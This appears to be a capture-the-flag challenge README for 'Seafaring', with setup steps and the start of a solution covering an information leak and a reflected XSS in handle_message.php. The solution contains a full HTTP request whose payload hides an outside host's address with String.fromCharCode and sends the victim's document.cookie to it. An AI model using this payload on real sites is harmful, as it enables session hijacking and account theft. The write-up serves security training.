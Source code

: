 # Seafaring

Life at least two impulses, a time for a love regardless of personal danger, go to travel.

## Tag

- XSS
- CSRF
- SQLi
- SSRF
- Selenium Server

## Usage

If you want to build this web for yourself, you should  update the file `check.py`

```python
admin_url = 'http://ctf.momomoxiaoxi.com:9999/admin/index.php'
login_url = 'http://ctf.momomoxiaoxi.com:9999/login.php'
driver_url = 'http://selenium-firefox:4444/wd/hub'
```

```
docker-compose build
docker-compose up -d
```

## Solution

#### SEAFARING1

1. The first vulnerability is that the programmer's die() function is improper, causing information to leak.

   so,  you can get js from this ,`curl http://ctf.momomoxiaoxi.com:9999/admin/index.php`

2. There is a reflective XSS in handle_message.php.

   payload:

   ```http
   POST /admin/handle_message.php HTTP/1.1
   Host: ctf.momomoxiaoxi.com
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 269
   Cookie: PHPSESSID=kbg91rh9u9gvpkcjt9im1tgse4
   DNT: 1
   Connection: close
   Upgrade-Insecure-Requests: 1
   
   action=view_unreads&status=1&token=d096148ee0d3cf1'<svg onload='img = new Image(); img.src=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 50, 48, 50, 46, 49, 49, 50, 46, 53, 49, 46, 49, 51, 48, 58, 57, 48, 57, 48, 47, 63, 122, 61).concat(btoa(document.cookie));'>'
   ```
